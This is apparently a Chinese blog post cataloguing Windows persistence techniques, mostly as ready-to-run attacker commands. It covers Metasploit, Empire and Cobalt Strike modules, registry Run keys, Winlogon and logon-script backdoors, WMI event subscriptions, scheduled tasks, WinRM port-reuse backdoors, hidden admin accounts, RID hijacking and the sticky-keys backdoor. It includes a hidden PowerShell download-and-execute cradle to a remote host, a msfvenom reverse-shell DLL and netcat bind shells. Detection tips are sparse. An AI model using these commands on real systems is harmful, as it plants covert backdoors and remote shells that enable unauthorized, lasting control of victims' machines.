如果我有的选，我能比你们所有人都好。——《何以为家》
windows单机Persistence
聊一聊windows下的Persistence。
工具篇
我们先来看一下三大渗透框架中对于权限维持的解决方案。
msf
Persistence模块
通过启动项启动(persistence)的方式，在目标机器上以反弹回连。
1 | run persistence -X -i 10 -p 4444 -r 192.168.1.68 |

-U：设置后门在用户登录后自启动。该方式会在
1 | HKCU\Software\Microsoft\Windows\CurrentVersion\Run |
下添加注册表信息
-X：设置后门在系统启动后自启动。该方式会在
1 | HKLM\Software\Microsoft\Windows\CurrentVersion\Run |
下添加注册表信息。
-S：作为服务自动启动代理程序。
Metsvc 模块
通过服务(metsvc)启动的方式，在目标机器启动后自启动一个服务

目标机器的会开启一个服务。

Scheduleme & Schtasksabus
msf中自动利用计划任务的后门程序。

demo：
1 | run scheduleme -m 1 -e /tmp/nc.exe -o "-e cmd.exe -L -p 8080" |
上传nc并创建计划任务每一分钟执行一次 ‘nc -e cmd.exe -L -p 8080’
1 | run schtasksabuse -t 192.168.1.68 -c "cmd /c calc.exe" -d 4 |
每隔4秒执行一次calc.exe
Empire
empire下提供了很多的权限维持的模块：

分类

计划任务
1 | (Empire: 4CH7TZAE) > usemodule persistence/elevated/schtasks* |

update下可以看到powershell的启动

Cobalt Strike
注册表：
1 | shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "keyname" /t REG_SZ /d "C:\Users\administrator\Desktop\1.exe" /f |
重启获得shell。

技术篇
对常见的权限维持的技术原理、实现方法、检测技巧进行总结、复现。
注册表类：
普通注册表后门
在一般用户权限下，通常是将要执行的后门程序或脚本路径填写到如下注册表的键值中HKCU\Software\Microsoft\Windows\CurrentVersion\Run，键名任意。普通权限即可运行
cmd下操作：
1 | reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\Users\administrator\desktop\pentestlab.exe" |
powershell下操作：
1 | Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\" "Pentestlab" "C:\Users\administrator\desktop\pentestlab.exe" -Force |
电脑重启后上线：

除了上面的位置之外还有下面的位置，可以让我们实现权限维持：
1 | HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce |
上面的是针对于用户的注册表，下面的这几个是针对本地计算机的注册表：
1 | HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run |
添加载荷的方法的自然也和之前的一样了，只是所处的位置不同罢了，注意service的程序。而防御与检测策略也是比较好做的，在这些的注册表的位置查看是否有可疑程序即可。
Winlogon Helper DLL后门
Winlogon是一个Windows组件，用来处理各种活动，如登录、注销、身份验证期间加载用户配置文件、关闭、锁定屏幕等。这种行为由注册表管理，该注册表定义在Windows登录期间启动哪些进程。所以我们可以依靠这个注册表来进行权限维持。
注册表位置如下：
1 | HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell |
其中的userinit与shell主要是来运行exe程序，而notify则用来执行dll文件（Windows 7之前）。
而userinit又可以通过powershell的方式，来实现无文件后门，用法如下：
1 | PS C:\Users\Administrator> Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name Userinit |

注意代码引号的转义问题。可以使用反引号绕过。
Logon Scripts后门
注册表路径: HKCU\Environment\
创建字符串键值: UserInitMprLogonScript
cmd下操作：
1 | reg add "HKCU:\Environment\" /v UserInitMprLogonScript /t REG_SZ /d "C:\1.bat" |
powershell下操作：
1 | Set-ItemProperty "HKCU:\Environment\" "UserInitMprLogonScript" "C:\1.bat" -Force |
bat内容如下：
1 | powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.31.109:8080/a'))" |

Logon Scripts是优先于很多杀毒软件启动（部分杀毒是优先于他启动）的，所以可以通过这种方式将powershell命令写到bat脚本中，达到免杀隐藏启动的效果。
缺点就是需要留文件，并不方便。
注册表之CLR
CLR全称为Common Language Runtime（公共语言运行库），是一个可由多种编程语言使用的运行环境。
要使clr能够劫持系统中全部.net程序，需要设置环境变量，要是只用命令行，可以使用wmi。
直接给出批处理文件：
1 | wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1" |
x64：
1 | wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1" |

内部工具类
waitfor.exe
该工具用来同步网络中计算机，可以发送或等待系统上的信号。
支持下列操作系统：
1 | Windows Server 2003 |
首先新建一个powershell文件内容为：
1 | start-process calc.exe |
然后开启等待：
1 | waitfor persist1 && powershell -executionpolicy bypass -file c:\test\1.ps1 |
另一个cmd
1 | waitfor /s 127.0.0.1 /si persist1 |
即可成功调用cmd。
注意，低版本powershell会报错：

或者使用三好学生师傅的脚本：
1 | <# |
然后使用下面的方式开启：
1 | powershell -executionpolicy bypass .\test.ps1 |
即可看到效果。

bitsadmin
win7之后，进行上传下载的工具。
利用方法如下：
1 | PS C:\Users\Administrator> bitsadmin /create backdoor |

当然，换成msf的sct也就可以上线了。白名单运行程序不仅仅只有regsvr32，还有别的很多，可以去查下资料
可以使用下面的方法进行检测：
1 | PS C:\Users\Administrator> bitsadmin /list /verbose |

msdtc加载后门
msdtc.exe 存在于组环境和域环境中,是微软的一个分布式事物处理协调器服务。要求处于工作组或者域环境内。

因为他在启动时会默认加载oci.dll，SQLLib80.dll和xa80.dll。Windows系统默认不包含oci.dll。
我们将后门dll将其重命名为oci.dll，并将其放置在%SystemRoot%\system32\中，那么重启时，就会加载我们的dll，然后得到一个session。
注意，dll版本要根据目标机器的位数来生成。
1 | msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.109 LPORT=4444 -f dll > oci.dll |
即可获得会话。

wmi执行后门技术
WMI可以描述为一组管理Windows系统的方法和功能。我们可以把它当作API来与Windows系统进行相互交流。WMI在渗透测试中的价值在于它不需要下载和安装， 因为WMI是Windows系统自带功能。而且整个运行过程都在计算机内存中发生，不会留下任何痕迹。
在使用wmi进行权限维持的时候，我们一般用到下面的三个类：
1 | __EventFilter |
下面我们看下他的利用方式，首先是mof。
msf先生成一个web的监听，然后使用msf生成文件。
1 | irb |

然后编译mof
1 | mofcomp.exe .\Metasploit.mof |

即可得到会话。第二种方式就是使用wmi事件。
命令如下：
1 | wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="PentestLab", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'" |
然后重启电脑，60s后反弹会话。

powershell版本：
1 | $FilterArgs = @{name='Pentestlab-WMI'; |
如果想要删除的话，可以使用下面的命令：
1 | $EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'Pentestlab-WMI'" |
powershell版本的也可以直接使用别人写好的脚本：https://github.com/n0pe-sled/WMI-Persistence/blob/master/WMI-Persistence.ps1
当然以下工具都具有该功能：Empire、SharpSploit、PoshC2、PowerLurk、WMIPersist、
而对于此类攻击的检测，就查看上面所说的那三种类就可以了。
1 | #List Event Filters |

且能发现木马的踪迹

计划任务
经典中的经典。
1 | schtasks.exe /Create /TN update /TR xx(你要执行的命令) /SC ONLOGON /F /RL HIGHEST |
demo：
1 | C:\Users\Administrator>schtasks /create /sc minute /mo 1 /tn "chrome" /tr "wscri |

或者使用powershell无文件加载也是可以的。
WinRM服务后门
基本原理是使用Windows 的远程管理管理服务WinRM，组合HTTP.sys驱动自带的端口复用功能，一起实现正向的端口复用后门。后门连接是需要目标服务器的高权用户的明文密码的，需要先抓取相应的明文密码才可部署后门。
下面是部署方法：
1 | winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"} //开启监听 |

查看状态：
1 | winrm e winrm/config/listener |

然后链接后门，本地做如下设置：
1 | winrm quickconfig -q |
然后连接后门，获得cmd环境。
1 | C:\Users\Administrator>winrs -r:http://192.168.31.94 -u:administrator -p:abc123! cmd |

如果是非管理员用户，用下面的方法修改注册表即可。
1 | reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f |
修改系统服务
使用sc制作权限维持：
1 | #创建Fax传真服务，并设置为自启动 |

重启获得会话。

记得监听添加下面的参数防止假死：
1 | set autorunscript migrate -f |
dll劫持
这个，看个人的思路以及编码能力了，比如劫持个安全狗？？

远程登录类
影子账户、克隆账户、激活guest
1 | net user test$ 123456 /add&&net localgroup administrators test$ /add |

1 | net user guest /active:yes |
rid_hijack
通过劫持有效帐户的RID来在注册表中进行修改，以使Guest帐户成为管理员
1 | msf5 post(windows/manage/rid_hijack) > set session 5 |

然后impacket链接

shift后门
1 | C:\Windows\System32\sethc.exe 粘滞键，启动快捷键：按五次shift键 |
1 | cd c:\Windows\System32 |
高版本的话就映像劫持吧。
参考文章：
https://blog.csdn.net/qq_23936389/article/details/101730500
https://www.cnblogs.com/-mo-/p/12449964.html
https://phyb0x.github.io/2018/12/21/win%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/
http://www.easy233.top/?p=268
https://www.c0bra.xyz/2019/11/29/Windows%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81-BITS/
https://www.bugfor.com/vuls/4906.html
http://xnianq.cn/2018/07/23/windows%E5%90%8E%E9%97%A8%E7%A7%8D%E6%A4%8D%E6%96%B9%E5%BC%8F%E6%94%B6%E9%9B%86/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md
https://github.com/netbiosX/Checklists/blob/master/Persistence.md
https://pentestlab.blog/2020/05/20/persistence-com-hijacking/